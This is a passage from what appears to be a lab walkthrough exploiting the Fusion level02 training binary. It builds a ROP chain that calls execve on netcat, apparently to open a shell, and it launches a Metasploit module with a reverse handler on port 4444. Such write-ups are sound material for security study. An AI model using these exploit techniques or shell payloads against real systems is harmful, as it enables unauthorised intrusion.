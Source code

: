 Excellent! All the arguments for the execve call are in place.

## <a name="second-rop-chain---execve"></a> Second ROP chain - execve
---

The final step will be executing the `execve` function. The address of `execve` is `0x0804b3d8`:

{% highlight bash %}
root@fusion:/home/fusion# objdump -R /opt/fusion/bin/level02 | grep execve
0804b3d8 R_386_JUMP_SLOT   execve
{% endhighlight %}

Luckily there is enough gadgets to pop this address into a register and call it as a pointer. The gadgets are:


{% highlight bash %}
pwf@ubuntu:~$ ROPgadget --binary level02
Gadgets information
============================================================
...
0x08048b13 : pop ebp ; ret
...
0x08049fe3 : call dword ptr [ebx]
...
Unique gadgets found: 126
pwf@ubuntu:~$
{% endhighlight %}

The second rop chain will be:

{% highlight bash %}
ropbuf += [0x08048818].pack('V') # pop ebx | ret
ropbuf += [0x0804b3d8].pack('V') # got entry for execve
ropbuf += [0x08049fe3].pack('V') # call ebx
ropbuf += [0x0804b438].pack('V') # addr of /bin/nc.traiditonal
ropbuf += [0x0804b420].pack('I') # addr of args
ropbuf += [0x00000000].pack('I') # null
{% endhighlight %}

Add the Metasploit handler method before disconnecting. Reload the module and execute it:

{% highlight bash %}
pwf@ubuntu:/opt/metasploit-framework$ ./msfconsole
[*] Starting the Metasploit Framework console...\
 _                                                    _
 / \    /\         __                         _   __  /_/ __
 | |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
 | | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
 |_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
       |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


=[ metasploit v4.11.0-dev [core:4.11.0.pre.dev api:1.0.0]]
+ -- --=[ 1454 exploits - 809 auxiliary - 230 post        ]
+ -- --=[ 363 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/fusion/level02
msf exploit(level02) > set RHOST 192.168.1.141
RHOST => 192.168.1.141
msf exploit(level02) > exploit

[*] Started reverse handler on 192.168.1.37:4444
